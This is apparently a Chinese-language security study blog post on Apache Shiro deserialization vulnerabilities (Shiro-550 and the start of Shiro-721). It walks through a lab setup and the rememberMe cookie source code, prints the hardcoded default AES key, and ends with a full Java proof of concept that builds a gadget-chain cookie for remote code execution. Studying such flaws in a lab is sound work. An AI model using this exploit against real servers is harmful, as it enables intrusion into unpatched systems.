**Apache Shiro** 是一个强大且灵活的 **Java 安全框架**，用于处理 **身份认证、授权、密码加密、会话管理** 等功能。

在分析Shiro反序列化的过程中，我会更偏向于对项目源码的解读，也是借此机会学一下这个框架的一些基础逻辑

Shiro反序列化主要分为shiro550和shiro721

在shiro版本小于1.2.5时，被称作`shiro-550`，shiro反序列化的产生原因主要是因为**rememberMe**内容，原因是AES密钥被硬编码在shiro源码中，导致在cookie中的rememberMe可以被插入恶意代码造成代码执行。在1.2.5之后，shiro使用了随机密钥，又因为**padding oracle attack**导致反序列化，被称作`shiro-721`。

参考文章：

[Shiro反序列化](https://infernity.top/2025/02/26/Shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[深入探究Shiro反序列化漏洞](https://www.freebuf.com/articles/web/395728.html)

# 环境搭建

jdk版本这里是1.8.0_65

1、从github中下载shiro1.2.4

https://codeload.github.com/apache/shiro/zip/refs/tags/shiro-root-1.2.4

解压后用IDEA打开，并修改pom.xml的内容，把`jstl依赖`版本改为`1.2`，没有的话自己加一个

` Shiro 1.2.4 的内部依赖或运行机制与 JSTL 的 1.2 版本兼容性最好`

```xml
            <dependency>
                <groupId>javax.servlet</groupId>
                <artifactId>jstl</artifactId>
                <version>1.2</version>
                <scope>runtime</scope>
            </dependency>
```

但是这里的话源码一直下不下来，得配置maven代理，或者换maven的版本为3.8.1之前的。从 **Maven 3.8.1** 开始，默认禁止了通过不安全的 http:// 仓库下载依赖。

然后需要配置一个tomcat服务器，具体配置的话看https://blog.csdn.net/qq_36389060/article/details/114895961或者https://blog.csdn.net/m0_48170265/article/details/129073985

我这里是jdk1.8的，所以需要将pom中的版本换一下

```xml
<jdk.version>1.8</jdk.version>
```

2、安装配置Tomcat服务器

Tomcat下载官网：https://tomcat.apache.org/，按着第二个链接安装一下，

DOS窗口输入`startup.bat`回车后访问8080端口看看是否安装成功



这样的话就算成功了

然后我们配置tomcat服务器



编辑配置的时候让我们的项目用tomcat去运行



部署的工件选samples-web:war



配置好后启动服务器



到此环境就算搭建好了

# Shiro550

## 影响版本

shiro <= 1.2.4

## 特征判断

响应包中包含字段remember=deleteMe字段

## 漏洞介绍

在shiro版本小于1.2.5时，被称作`shiro-550`。**shiro-550主要是由shiro的rememberMe内容反序列化导致的命令执行漏洞**，造成的原因是默认加密密钥是硬编码在shiro源码中，任何有权访问源代码的人都可以知道默认加密密钥。 于是攻击者可以创建一个恶意对象，对其进行序列化、编码，然后将其作为cookie的rememberMe字段内容发送，Shiro 将对其解码和反序列化，导致服务器运行一些恶意代码。

## shiro登录逻辑分析

换成调试模式运行服务器，访问login.jsp来到登录界面



尝试登录一下，记得选上Remember Me选项

我们先找一下登录逻辑处理，先看看src/main/webapp/WEB-INF/web.xml，`web.xml` 文件是 **Java Web 项目的部署描述文件**

看看里面关于配置shiro的核心过滤器

```xml
<filter>
    <filter-name>ShiroFilter</filter-name>
    <filter-class>org.apache.shiro.web.servlet.ShiroFilter</filter-class>
</filter>

<filter-mapping>
    <filter-name>ShiroFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```

这里定义了一个ShiroFilter过滤器，并且使用的是自带的ShiroFilter类，`url-pattern="/*"` 表示该过滤器拦截 **所有请求**

然后我们看一下shiro.ini文件，这里定义了Shiro的登录逻辑，权限规则，拦截路径



- 设置全局登录页面为login.jsp，当用户访问需要认证的资源但未登录的时候会重定向到该页面
- `/login.jsp = authc`使用authc过滤器处理登录请求

`authc` 是 Apache Shiro 中的一个 **内置过滤器（Filter）**，该过滤器主要是执行登录请求处理，判断是否登录授权访问等功能

接下来我们看一下在登录页面发起post表单请求后的处理逻辑

1、当我们在登录界面发起请求的时候，shiro会启动自身的安全过滤器链，也就是调用AbstractShiroFilter#doFilterInternal()方法

我们直接来到AbstractShiroFilter类，断点打在doFilterInternal方法，登录的时候会进入这个方法。



2、然后该方法会给我们找到匹配的过滤器，也就是之前说的authc，对应的类就是`org.apache.shiro.web.filter.authc.FormAuthenticationFilter`类，他是authc的处理逻辑的核心入口。

3、调用FormAuthenticationFilter#onAccessDenied()方法



分析一下代码

```java
    protected boolean onAccessDenied(ServletRequest request, ServletResponse response) throws Exception {
        if (isLoginRequest(request, response)) {//判断当前请求是否是shiro.loginUrl
            if (isLoginSubmission(request, response)) {//判断当前请求是否是POST 请求并且包含表单字段，也就是登录操作
                if (log.isTraceEnabled()) {
                    log.trace("Login submission detected.  Attempting to execute login.");
                }
                return executeLogin(request, response);//执行登录认证逻辑函数
            } else {
                if (log.isTraceEnabled()) {
                    log.trace("Login page view.");
                }
                //allow them to see the login page ;)
                return true;//如果不是POST请求就放行，显示登录页面
            }
        } else {
            if (log.isTraceEnabled()) {
                log.trace("Attempting to access a path which requires authentication.  Forwarding to the " +
                        "Authentication url [" + getLoginUrl() + "]");
            }

            saveRequestAndRedirectToLogin(request, response);//如果是访问的其他受保护的资源，就返回false
            return false;
        }
    }
```

因为我们是提交表单的POST请求，所以会调用executeLogin函数，我们跟进看看



这里主要是从请求中创建一个令牌token，生成一个 `AuthenticationToken` 对象，登录成功后触发onLoginSuccess方法返回true。

4、真正的登录认证函数：org.apache.shiro.subject.support.DelegatingSubject#login()



5、然后一直来到DefaultSecurityManager类找到rememberMeSuccessfulLogin函数，这是用于处理`Remember Me`功能的部分



先调用AbstractRememberMeManager类的onSuccessfulLogin方法，这个方法是处理登录成功逻辑的



重点在于第一行代码

```java
 forgetIdentity(subject);
```

这个功能的话在于清除旧的`"记住我"`的身份，我们跟进这来到CookieRememberMeManager的forgetIdentity方法



然后继续跟进里面的forgetIdentity方法



这里的话会获取cookie字段然后删除该字段，我们跟进一下



分析一下代码

```java
    public void removeFrom(HttpServletRequest request, HttpServletResponse response) {
        String name = getName();//获取Cookie的名称，这里是rememberMe
        String value = DELETED_COOKIE_VALUE;//设置一个值未deleteMe
        String comment = null; //don't need to add extra size to the response - comments are irrelevant for deletions
        String domain = getDomain();
        String path = calculatePath(request);
        int maxAge = 0; //always zero for deletion
        int version = getVersion();
        boolean secure = isSecure();
        boolean httpOnly = false; //no need to add the extra text, plus the value 'deleteMe' is not sensitive at all

        addCookieHeader(response, name, value, comment, domain, path, maxAge, version, secure, httpOnly);
//调用方法设置set-Cookie头，并将上面的rememberMe=deleteMe加入到响应头
        log.trace("Removed '{}' cookie by setting maxAge=0", name);
    }
```

这里的话就是返回一个Set-Cookie响应头，将rememberMe设置为deleteMe，我们继续往下走，回到onSuccessfulLogin方法



检查登录的时候是否选择了“记住我”选项，之前我们传的时候就选上了，所以直接步入rememberIdentity函数





```java
    protected void rememberIdentity(Subject subject, PrincipalCollection accountPrincipals) {
        byte[] bytes = convertPrincipalsToBytes(accountPrincipals);
        rememberSerializedIdentity(subject, bytes);
    }
```

这里的话会将身份信息转化成字节数组，并传入rememberSerializedIdentity方法中。



可以看到这里传入的值是root

跟进convertPrincipalsToBytes方法看看



进行了一个序列化操作，判断不为空之后进入一个encrypt方法，我们继续步入



使用 `cipherService.encrypt()` 对序列化数据进行加密，密钥由 `getEncryptionCipherKey()`提供，最后将加密后的数据转成byte数组返回。这里的加密方式为AES/CBC/PKCS5Padding

在`encrypt()`中，可以看到使用的加密算法是AES，使用AES算法对cookie进行加密。

接着进入getEncryptionCipherKey方法



这是一个getter方法，用来获取当前对象中的 AES 加密密钥字段，我们看看这个字段的setter方法



然后我们看看哪里调用了这个函数



在`setCipherKey()`中同时给加解密密钥赋值，我们跟进看一下CipherKey



可以看见密钥\DEFAULT_CIPHER_KEY_BYTES\是一个常量，就是然后看看哪里调用了这个setCipherKey()方法



所以这里最终获取到的加密密钥：`kPH+bIxk5D2deZiIxcaaaA==`，返回后进入cipherService.encrypt函数



生成初始化向量ivBytes后，进入具体的加密函数，重点在最后的return中

```java
return encrypt(plaintext, key, ivBytes, generate);
```

在加密完成后返回到之前的rememberIdentity函数，下面的rememberSerializedIdentity实现了记住序列化身份的功能





这里的话会对序列化的数据进行base64加密，并将信息加入Cookie字段中，然后我们一直返回，回到一开始的executeLogin方法







以上就是大致的登录逻辑分析了

这时候不难发现，这里的话加密密钥是一个常量，所以这里也是漏洞利用点

## 解密流程

我们尝试一下带着刚刚生成的rememberMe字段的值去访问一下限制访问页面account，看看后端对cookie解密的处理逻辑是什么样的

在AbstractShiroFilter类的doFilterInternal方法下断点，单步进入DefaultSecurityManager类的createSubject方法



继续跟进resolvePrincipals方法，单步到getRememberedIdentity，RememberMeManager获取后进入getRememberedPrincipals方法





然后看这里的第一个函数getRememberedSerializedIdentity，可以看到先获取cookie中的值，然后base64解密，生成二进制数后返回



然后看第二个函数convertBytesToPrincipals，先获取解密服务，解密服务不为空后，将二进制数据传入decrypt函数进行解密，之后return deserialize(bytes)



在deserialize方法中，跟进后发现有一个readObject()方法，可以触发apache.commons利用链漏洞



所以整个过程就是：读取cookie中rememberMe值->base64解码->AES解密->反序列化

那么这里的话获取密钥就成了关键，只要获取到密钥，就可以进行反序列化操作。密钥的话我们之前分析过，是一个固定的常量，所以就可以很轻松的利用到整个漏洞了。

在1.2.5之后，shiro采取了随机密钥，虽然阻止了shiro550的利用方式。但由于padding oracle attack也导致了反序列化。也就是我们的shiro721

## 最终POC

```java
package SerializeChains.Shiro;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.PriorityQueue;

public class shiro550_POC {
    public static void main(String[] args) throws Exception {
        //CC3
        byte[] bytes = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        //CB&&add()方法
        BeanComparator comparator = new BeanComparator();
        PriorityQueue queue = new PriorityQueue<Object>(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(comparator, "property", "outputProperties");//修改property触发getter方法
        setFieldValue(queue,"queue",new Object[]{templates,templates});// 设置BeanComparator.compare()的参数
        setFieldValue(comparator, "comparator", String.CASE_INSENSITIVE_ORDER);
        //setFieldValue(comparator, "comparator", Collections.reverseOrder());

        OutputCookieWithKey(queue,"kPH+bIxk5D2deZiIxcaaaA==");
    }
    public static void OutputCookieWithKey(Object eval,String shiro_key) throws IOException{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(eval);
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.getDecoder().decode(CodecSupport.toBytes(shiro_key));
        byte[] bytes = byteArrayOutputStream.toByteArray();

        ByteSource ciphertext;
        ciphertext = aes.encrypt(bytes, key);
        System.out.println(ciphertext);
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        Templates templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates, "_name", "wanth3f1ag");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```



# shiro721

## 影响版本

Apache Shiro <= 1.4.1

## 特征判断

响应包中包含字段remember=deleteMe字段

## 漏洞原理

在Shiro721漏洞中，由于Apache Shiro cookie中通过 AES-128-CBC 模式加密的rememberMe字段存在问题，用户可通过Padding Oracle Attack来构造恶意的rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行。

虽然使用Padding Oracle Attack可以绕过密钥直接构造攻击密文，但是在进行攻击之前我们需要获取一个合法用户的Cookie。

## 关于Oracle填充攻击

**Padding Oracle Attack（填充预言攻击）\**是一种针对对称加密模式（尤其是 \*\*CBC 模式\*\*）的攻击方式，攻击者通过观察服务器对错误填充的响应，可以\**逐字节恢复密文对应的明文**，甚至伪造合法的加密数据。
